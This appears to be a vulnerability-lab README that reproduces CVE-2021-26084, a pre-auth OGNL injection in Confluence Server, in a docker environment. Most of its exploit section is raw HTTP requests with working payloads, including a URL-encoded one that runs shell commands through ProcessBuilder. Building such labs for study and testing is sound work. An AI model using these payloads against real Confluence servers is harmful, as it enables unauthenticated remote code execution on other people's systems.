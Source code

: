 # Confluence Server Webwork Pre-Auth OGNL Injection (CVE-2021-26084)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An OGNL injection vulnerability exists that allows an unauthenticated attacker to execute arbitrary code on a Confluence Server or Data Center instance.

References

- https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html
- https://jira.atlassian.com/browse/CONFSERVER-67940
- https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
- https://github.com/h3v0x/CVE-2021-26084_Confluence

## Vulnerable Environment

Execute following command to start a Confluence Server 7.4.10:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](3.png)

## Exploit

There are multiple API endpoints that are affected by this vulnerability.

### /pages/doenterpagevariables.action

This is a pre-auth exploit, executing `233*233`:

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

![](2.png)

Executing arbitrary commands:

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

![](1.png)

### /pages/createpage-entervariables.action

This is also a pre-auth exploit:

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### /pages/createpage.action

This exploit requires a user permission to create pages:

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close


```
